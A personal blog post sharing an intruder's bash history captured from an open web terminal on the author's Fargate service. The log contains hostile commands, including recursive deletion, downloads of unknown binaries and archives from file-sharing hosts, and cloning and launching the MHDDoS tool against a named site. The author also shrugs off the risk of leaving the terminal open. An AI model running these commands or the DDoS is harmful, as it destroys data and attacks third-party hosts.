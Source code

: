 ```yaml
---
layout: post
title: "Bash history of a hack attempt in one of my Fargate services"
date: 2022-01-12 12:00:00 -0000
---
```


## Bash history of a hack attempt in one of my Fargate services

Yesterday I checked the bash history for an open [web terminal](http://github.com/yudai/gotty)
I left behind in one of the Fargate services I set up, and noticed a hack attempt.
Below you'll find the set of commands the attacker used. Typos and the constant
use of `clear` makes me think this isn't a pro, but it's still interseting to
see what he/she attempted.
 
```
   31  ls
   32  rm -rf *
   33  ls
   34  sudo
   35  ls
   36  sudo apt update
   37  clear
   38  ls
   39  screen -ls
   40  clear
   41  cd
   42  tmux
   43  clear
   44  ls
   45  cd /
   46  ls
   47  cd
   48  clear
   49  ulimit -n 999999
   50  clear
   51  wget
   52  curl
   53  docker
   54  udocker
   55  pip3
   56  curl https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip --output yt.zip
   57  screen -ls
   58  ls
   59  clear
   60  unzip yt.zip
   61  pk
   62  apk update
   63  apt
   64  apt update
   65  clear
   66  tar
   67  rm -rf *
   68  clear
   69  ls
   70  clear
   71  curl https://transfer.sh/rvpSpC/root.sh --output root.sh
   72  ls
   73  curl https://transfer.sh/A2mYNo/root.tar.xz --output root.tar.xz
   74  mkdir dist
   75  ls
   76  cd dist
   77  curl https://transfer.sh/1e30zd/proot --output proot
   78  curl https://transfer.sh/9btpPw/proot.md5sum --output proot.md5sum
   79  curl https://transfer.sh/6wqMgI/proot.sha256sum --output proot.sha256sum
   80  clear
   81  cd
   82  ls
   83  tar -xvf root.tar.xz
   84  clear
   85  ./dist/proot -S . /bin/bash
   86  chmod +x ./dist/proot
   87  ./dist
   88  ./dist/proot -S . /bin/bash
   89  ls
   90  rm -rf root.sh
   91  m -rf root.tar.xz
   92  rm -rf root.tar.xz
   93  ls
   94  cd
   95  ls
   96  clear
   97  cd /
   98  ls
   99  cd
  100  ls
  101  cd dist
  102  ls
  103  rm -rf *
  104  cd /
  105  rm -rf dist
  106  clear
  107  ls
  108  cd
  109  pip3 install udocker
  110  udocker install
  111  pip3 remove udocker
  112  pip3 uninstall udocker
  113  clear
  114  curl https://github.com/indigo-dc/udocker/releases/download/v1.3.1/udocker-1.3.1.tar.gz --output udocker-1.3.1.tar.gz
  115  ls
  116  cd
  117  ls
  118  tar zxvf udocker-1.3.1.tar.gz
  119  ls
  120  clear
  121  curl https://transfer.sh/ce6sc1/udocker.tar.gz --output udocker.tar.gz
  122  tar -xvf udocker.tar.gz
  123  ls
  124  rm -rf udocker*
  125  ls
  126  clear
  127  ls
  128  git
  129  git clone https://github.com/MHProDev/MHDDoS
  130  cd MHDDoS
  131  ls
  132  pip3 install -r requirements.txt
  133  cdlls
  134  cd
  135  ls
  136  cd MHDDoS
  137  ls
  138  cd
  139  ls
  140  cd MHDDoS
  141  python3 start.py get https://host.applelife.ru/ 1 1000 http.txt 1000 9999999999999999999999999999
  142  history
```

I don't recomment visiting these URLs, or trying these commands on your system.
However, <https://github.com/MHProDev/MHDDoS> is safe. It's a DDOS Attack script
implemented in Python. The attaker was able to install it, and used it to DDOS
`https://host.applelife.ru/`.

After noticing it, I removed the configuration that enables the web terminal and
restarted the service to get back to a healthy/safe state.

FWIW, I know that leaving an open web terminal isn't safe. This is not the first
time I got an intruder there, but the previous one just poked around and didn't
attempt anything nefarious. Anyway, YOLO - these web terminals are pretty
convenient. And since there's very little an attacker can do in the running
container, I feel the risk is manageable.
